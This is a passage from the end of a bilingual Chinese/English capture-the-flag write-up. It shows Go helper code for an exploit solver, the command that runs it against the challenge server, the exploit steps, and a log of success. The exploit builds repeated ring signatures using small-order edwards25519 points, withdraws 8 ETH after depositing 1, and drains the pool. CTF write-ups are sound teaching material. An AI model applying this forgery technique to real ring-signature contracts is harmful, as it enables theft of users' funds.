        return fmt.Errorf("%s (%d)", env.Error.Message, env.Error.Code)
    }
    if out == nil {
        return nil
    }
    return json.Unmarshal(env.Result, out)
}

func writeU64(buf *bytes.Buffer, value uint64) {
    var raw [8]byte
    binary.LittleEndian.PutUint64(raw[:], value)
    buf.Write(raw[:])
}

func hexBig(v *big.Int) string {
    return "0x" + v.Text(16)
}

func hexToBig(raw string) (*big.Int, error) {
    raw = strings.TrimPrefix(raw, "0x")
    if raw == "" {
        return big.NewInt(0), nil
    }
    value, ok := new(big.Int).SetString(raw, 16)
    if !ok {
        return nil, fmt.Errorf("invalid hex quantity %q", raw)
    }
    return value, nil
}

func hexToUint64(raw string) (uint64, error) {
    value, err := hexToBig(raw)
    if err != nil {
        return 0, err
    }
    if !value.IsUint64() {
        return 0, fmt.Errorf("value too large for uint64: %s", raw)
    }
    return value.Uint64(), nil
}

func bigIntToUint64(v *big.Int) (uint64, error) {
    if v.Sign() < 0 || !v.IsUint64() {
        return 0, fmt.Errorf("value out of uint64 range: %s", v.String())
    }
    return v.Uint64(), nil
}

func mustIdentityPoint() *edwards25519.Point {
    var raw [32]byte
    raw[0] = 1
    point, err := new(edwards25519.Point).SetBytes(raw[:])
    if err != nil {
        panic(err)
    }
    return point
}

func mustInvertSmallScalar(v byte) *edwards25519.Scalar {
    var buf [32]byte
    buf[0] = v
    s, err := new(edwards25519.Scalar).SetCanonicalBytes(buf[:])
    if err != nil {
        panic(err)
    }
    return new(edwards25519.Scalar).Invert(s)
}

func decodeHex32(raw string) ([32]byte, error) {
    var out [32]byte
    buf, err := hex.DecodeString(strings.TrimPrefix(raw, "0x"))
    if err != nil {
        return out, err
    }
    if len(buf) != 32 {
        return out, fmt.Errorf("expected 32 bytes, got %d", len(buf))
    }
    copy(out[:], buf)
    return out, nil
}

func array32(raw []byte) [32]byte {
    var out [32]byte
    copy(out[:], raw)
    return out
}

func die(err error) {
    fmt.Fprintln(os.Stderr, err)
    os.Exit(1)
}
go run . remote-solve --base-url http://43.200.70.230
```

`remote-solve` 会自动完成：

`remote-solve` will automatically complete:

1. 取 PoW challenge

2. 解 PoW

   Solve PoW 

3. 请求新实例

   Request a new instance 

4. 用发下来的 `player_key` 存入 `1 ETH`

   Use the issued ` player_key ` to deposit ` 1 ETH `

5. 构造 8 份重复 ring

   Construct 8 repeated rings

6. 提现 `8 ETH` 到 `0x1337`

   Withdraw` 8 ETH ` to ` 0x1337 `

7. 请求 `/{uuid}/flag`

   Request `/{uuid}/flag `

远端实例服务偶尔会返回：

The remote instance service occasionally returns: 

```Plain
error_starting_chain
```

直接重试即可，不影响漏洞本身。

Simply retry directly, which does not affect the vulnerability itself. 

**远端利用结果**

**Remote utilization results**

成功运行时的关键输出如下：

The key outputs during successful operation are as follows: 

```Plain
instance uuid=06ec4db8-e552-4fef-9fdc-6daede54d995 rpc=http://43.200.70.230/06ec4db8-e552-4fef-9fdc-6daede54d995 player=0xf7287D844E0C97db56B29E38C5Ac0EFA37B7fE04
deposit confirmed
sign ring 1/8 order=1
sign ring 2/8 order=8
sign ring 3/8 order=4
sign ring 4/8 order=8
sign ring 5/8 order=2
sign ring 6/8 order=8
sign ring 7/8 order=4
sign ring 8/8 order=8
withdraw tx=0xf05755817928cf4453c6f259430183dab68d7a182fb4d9ea886dd9251d53890a amount=8000000000000000000
pool balance=0 recipient balance=8000000000000000000
```

可以看到最终状态正好满足题目要求：

It can be seen that the final state exactly meets the requirements of the problem: 

- 池子余额为 `0`

  Pool balance is `0`

- `0x1337` 收到 `8 ETH`

- `0x1337` received `8 ETH`
